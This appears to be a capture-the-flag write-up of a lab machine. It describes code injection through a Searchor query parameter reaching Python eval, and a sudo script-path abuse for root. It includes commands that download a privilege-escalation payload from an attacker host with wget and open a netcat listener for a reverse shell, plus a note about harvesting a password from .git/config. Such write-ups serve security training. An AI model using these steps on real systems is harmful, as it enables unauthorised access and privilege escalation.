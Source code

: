 ## Intial Foothold
**Abuse Searchor to execute commands**


### Resources
- [Searchor Repo](https://github.com/ArjunSharda/Searchor)
- [Python Eval Function](https://realpython.com/python-eval-function/#understanding-pythons-eval)
- [Bypass python sandbox](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

### Exploit

```
python3 exploit.py
```
**Steps**
- When I went to website I found that it using Searchor.
- I downloaded Searchor on my local machine and play with it to find a way to execute commands.
- I assumed web application pass the query and engine parameters in POST request to Searchor directly.

  ``Engine.<engine>.search('<query>')``
- I tried to abuse engine parameter and there was no way to abuse it.
- Then I focused on query parameter and sent ' in it and it break the application so I was in the correct way.


  Normal Request:                                                                                         
  ![image](https://user-images.githubusercontent.com/59315492/230909846-0853fa7b-4b09-484c-9c39-0ba820f0883b.png)
  
  
  Response:                                                                                            
  ![image](https://user-images.githubusercontent.com/59315492/230909887-618f1b70-34c0-4b5f-a2b5-e7d6429a5f1b.png)
  
  
  Abused Request with ' :                                                                                     
  ![image](https://user-images.githubusercontent.com/59315492/230910048-4acc9c72-8621-4f3b-9092-895cc6dd7250.png)
  
  
  Response:                                                                                 
  ![image](https://user-images.githubusercontent.com/59315492/230910150-0326e94e-fe54-498a-9f9b-9319b44e5bd2.png)

- I tried to bypass Searchor on my local machine and I found a way to bypass it.
  
  ![image](https://user-images.githubusercontent.com/59315492/230912748-0bacadcb-d71a-4c10-a5ed-486798bccc35.png)

  ![image](https://user-images.githubusercontent.com/59315492/230912809-fa50c90a-bae6-4748-81ea-fd311472cfdf.png)
 - I found that eval function take string and run it as python code I tried it and it worked. 
  ![image](https://user-images.githubusercontent.com/59315492/230914598-544158e0-615f-4717-a17e-c004e5acd936.png)
  ![image](https://user-images.githubusercontent.com/59315492/230914677-8a5643a9-ba84-44ed-94df-bc6828463364.png)
 - I found way to get RCE using eval in [Bypass python sandbox](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
  ![image](https://user-images.githubusercontent.com/59315492/230915451-e15ea78f-60fc-4d4d-903c-4f03ba152e02.png)
  ![image](https://user-images.githubusercontent.com/59315492/230915542-36152379-2e8e-4a13-b92a-602d13a1c5cf.png)
 
 - Finally I wrote python code to exploit it and get shell. 

---
## Privilege Escalation:
**Use sudo -l and use python3 /opt/scripts/system-checkup.py to get root**
### Exploit

- I found svc password in /var/www/app/.git/config file and used it to ssh.
- Run sudo -l and found that we can run /usr/bin/python3 /opt/scripts/system-checkup.py * using sudo.
- I cd to /opt/scripts/ and run the command sudo /usr/bin/python3 /opt/scripts/system-checkup.py and found that is has 3 args docker-ps, docker-inspect and full-checkup and I tried all of them and found that full-checkup run a file locate in the same directory called full-checkup.sh.
- So I cd to /tmp and create file called full-checkup.sh that contain simple command id and chmod +x full-checkup.sh and run ``sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-check``upand now I am root.
  
  - Run Simple HTTP Server on Attacker Machine.
    
    ```
    python3 http.server 8000
    ```
  - Download PriEsc.py on Target Machine.
    
    ```
    wget http://<Local_IP>:8000/PrivEsc.py
    ```
- Run netcat listener on Attacker Machine

    ```
    nc -nlvp 4444
    ```
- Run PrivEsc.py and wait for Root shell connection it may take a while.

    ```
    python3 PrivEsc.py
    ```
